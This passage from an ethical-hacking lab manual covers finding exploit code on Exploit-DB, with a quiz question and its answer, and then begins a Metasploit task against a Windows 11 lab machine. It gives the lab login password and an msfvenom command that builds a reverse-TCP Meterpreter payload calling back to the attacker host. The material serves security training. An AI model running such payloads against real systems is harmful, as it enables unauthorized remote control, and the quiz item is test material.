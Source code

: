 	5. Scroll down to view the result, which displays a list of vulnerabilities, as shown in the screenshot.
	6. You can click on any vulnerability to view its detailed information (here, CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass).
	
	7. Detailed information regarding the selected vulnerability such as CVE ID, author, type, platform, and published data is displayed, as shown in the screenshot.
	8. You can click on the download icon in the Exploit section to download the exploit code.
	
	9. Navigate to the downloaded location (here, Downloads), right-click the saved file, and select Show more options and select Edit with Notepad++.
	10. A Notepad++ file appears, displaying the exploit code, as shown in the screenshot.
If Notepad++ update pop-up appears, click No.
	
	11. This exploit code can further be used to exploit vulnerabilities in the target system.
	12. Close all open windows.
	13. This concludes the demonstration of finding vulnerabilities on exploit sites such as Exploit Database.
	14. You can similarly use other exploit sites such as VulDB (https://vuldb.com), MITRE CVE (https://cve.mitre.org), Vulners (https://vulners.com), and CIRCL CVE Search (https://cve.circl.lu) to find target system vulnerabilities.
	15. Close all open windows and document all the acquired information.
Question 6.1.3.1
Search for the vulnerability "CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)" on exploit-db.com. What is the CVE ID for this vulnerability?
2018-6892
Task 4: Exploit Client-Side Vulnerabilities and Establish a VNC Session
Attackers use client-side vulnerabilities to gain access to the target machine. VNC (Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organizations throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.
This task demonstrates the exploitation procedure enforced on a weakly patched Windows 11 machine that allows you to gain remote access to it through a remote desktop connection.
Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and remotely control these targets.
In this task, we will use the Parrot Security (10.10.1.13) machine as the host system and the Windows 11 (10.10.1.11) machine as the target system.
	1. Click Parrot Security to switch to the Parrot Security machine.
	
	2. In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.
If a Parrot Updater pop-up appears at the top-right corner of Desktop, ignore and close it.
If a Question pop-up window appears asking you to update the machine, click No to close the window.
	
	3. Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.
	
	4. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	5. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	
	6. A Parrot Terminal window appears; type msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe and press Enter.
Here, the IP address of the host machine is 10.10.1.13 (Parrot Security machine).
	